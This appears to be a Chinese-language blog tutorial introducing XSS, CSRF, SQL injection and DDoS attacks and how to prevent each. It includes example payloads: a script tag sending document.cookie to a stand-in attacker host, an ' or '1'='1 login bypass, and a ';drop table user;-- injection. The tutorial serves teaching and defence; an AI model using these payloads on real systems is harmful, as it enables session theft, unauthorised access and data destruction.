

常见的 web 攻击有以下几种：
- XSS（跨站脚本攻击）
- CSRF（跨站请求伪造）
- SQL 注入
- DDOS
一、XSS
什么是 XSS
XSS （Cross-Site Script）攻击，即跨站脚本攻击，为了不和层叠样式表（Casscading Style Sheets，CSS）的缩写混淆，因此缩写为 XSS。
XSS 攻击涉及到三方：攻击者、用户、web server。用户通过浏览器访问 web server 上的网页，攻击者通过某些办法，在该网页中插入自己的脚本。用户在自己的浏览器上访问该网页时，被插入的脚本被执行，来获取用户的的信息，并发送到攻击者自己的服务器上（跨站了）。因此被称为跨站脚本攻击。
一句话来说，XSS 攻击指攻击者在网页中嵌入恶意的脚本程序。XSS 攻击是为了盗取存储在客户端的 cookie 或者其他用于识别客户端身份的敏感信息。一旦获取到合法用户的信息，攻击者就可以假冒合法用户与网站进行交互。
案例
例如，小明做了一个博客网站，然后攻击者在上面发布了一篇文章，内容是这样是 <script>window.open("www.gongji.com?params"+document.cookie)</script> ，如果我没有对它的内容进行处理，直接存储到数据库，那么当下一次其他用户访问他的这篇文章的时候，服务器会从数据库读取这段内容后然后响应给客户端，浏览器执行了这段脚本，然后就把该用户的 cookie 发送到攻击者的服务器了。
如何预防 XSS
XSS 防御的总体思路是：对输入(和URL参数)进行过滤，对输出进行编码。也就是对提交的所有内容进行过滤，对 url 中的参数进行过滤，过滤掉会导致脚本执行的相关内容；然后对动态输出到页面的内容进行 html 编码，使脚本无法在浏览器中执行。
HttpOnly 与 XSS 防御
XSS 一般利用 js 脚本读取用户浏览器中的 cookie，而如果在服务器端对 cookie 设置了HttpOnly 属性，那么 js 脚本就不能读取到 cookie，但是浏览器还是能够正常使用cookie。
二、CSRF
什么是 CSRF
CSRF（Cross-site request forgery），即跨站请求伪造，也被称为 one click attack/session riding，缩写为 CSRF/XSRF。
可以这么理解CSRF攻击：攻击者盗用了你的身份，以你的名义发送恶意请求。CSRF能够做的事情包括：以你名义发送邮件、发消息、盗取你的账号、甚至于购买商品、虚拟货币转账等等，造成的问题包括：个人隐私泄露以及财产安全。
CSRF 攻击的思想
从上图可以看出，要完成一次 CSRF 攻击，受害者必须依次完成两个步骤：
- 登录受信任网站A，并在本地生成 Cookie。
- 在不退出A的情况下，访问危险网站B。
看到这里，你也许会说：“如果我不满足以上两个条件中的一个，我就不会受到CSRF的攻击”。是的，确实如此，但你不能保证以下情况不会发生：
- 你不能保证你登录了一个网站后，不再打开一个页面并访问另外的网站。
- 你不能保证你关闭浏览器了后，你本地的 Cookie 立刻过期。
- 上图中所谓的攻击网站，可能是一个存在其他漏洞的可信任的经常被人访问的网站。
如何预防 CSRF
- 攻击者是利用了存储在浏览器的用于用户认证的 cookie，那么不使用 cookie 进行验证就可以预防了，所以我们可以采用 token 认证。
- 验证 HTTP Referer 字段，HTTP Referer 是请求头的一部分，当浏览器向 web 服务器发送请求的时候，一般会带上 Referer，告诉服务器我是从哪个页面链接过来的，服务器基于此可以获得一些信息用于处理。
三、SQL 注入
什么是 SQL 注入
SQL 注入就是通过将 sql 命令伪装成 http 请求参数，传递到服务器，服务器执行 sql 命令造成攻击。
案例
' or '1'= '1 是最常见的 sql 注入攻击，当输如用户名 xming，密码输入 'or '1'= '1 时，在查询用户名和密码是否正确的时候，本来要执行的是 select * from user where username='' and password=''，经过参数拼接后，会执行 sql 语句 select * from user where username='jaijun' and password='' or '1'= '1'，此时 1=1 是成立的，自然就跳过验证了。
如果再严重一点，密码输入的是 ';drop table user;--，那么 sql 命令为 select * from user where username='jiajun' and password='';drop table user;--'，此就直接把这个表给删除了。
如何预防 SQL 注入
- 对进入数据库的特殊字符（
'"\尖括号&*;等）进行转义处理。 - 在应用发布之前建议使用专业的 SQL 注入检测工具进行检测，以及时修补被发现的SQL 注入漏洞。
- 避免网站打印出 SQL 错误信息，比如类型错误、字段不匹配等，把代码里的 SQL 语句暴露出来，以防止攻击者利用这些错误信息进行 SQL 注入。
四、DDOS
什么是 DDOS
DDOS（Distributed Denial of Service）攻击 ，即分布式拒绝服务攻击。简单的说就是发送大量请求使服务器瘫痪。DDOS 攻击是在 DOS 攻击基础上的，可以通俗理解，DOS 是单挑，而 DDOS 是群殴。因为现代技术的发展，DOS 攻击的杀伤力降低，所以出现了 DDOS，攻击者借助公共网络，将大数量的计算机设备联合起来，向一个或多个目标进行攻击。
在技术角度上，DDoS 攻击可以针对网络通讯协议的各层，手段大致有：TCP 类的 SYN Flood、ACK Flood，UDP 类的 Fraggle、Trinoo，DNS Query Flood，ICMP Flood，Slowloris 类等等。一般会根据攻击目标的情况，针对性的把技术手法混合，以达到最低成本最难防御的目的，并且可以进行合理的节奏控制，以及隐藏保护攻击资源。
下面介绍一下TCP协议中的SYN攻击。
SYN 攻击
在三次握手过程中，服务器发送 SYN-ACK 之后，在收到客户端的 ACK 之前的 TCP 连接称为半连接（half-open connect）。此时服务器处于 SYN_RCVD 状态。当收到 ACK 之后，服务器才能转入 ESTABLISHED 状态.
SYN 攻击指的是，攻击客户端在短时间内伪造大量不存在的 IP 地址，向服务器不断地发送 SYN 包，服务器回复确认包，并等待客户端的确认。由于源地址是不存在的，服务器需要不断的重发直至超时，这些伪造的 SYN 包将长时间占用未连接队列，导致正常的 SYN 包请求被丢弃，目标系统运行缓慢，严重者会引起网络堵塞甚至系统瘫痪。
如何预防 DDOS
- 最直接的方法是增加带宽。但是攻击者用各地的电脑进行攻击，他的带宽不会耗费很多钱，但对于服务器来说，带宽非常昂贵。
- 阿里巴巴的安全团队在实战中发现，DDoS 防御产品的核心是检测技术和清洗技术。检测技术就是检测网站是否正在遭受 DDoS 攻击，而清洗技术就是清洗掉异常流量。而检测技术的核心在于对业务深刻的理解，才能快速精确判断出是否真的发生了 DDoS 攻击。清洗技术对于检测技术来讲，不同的业务场景下要求的粒度不一样。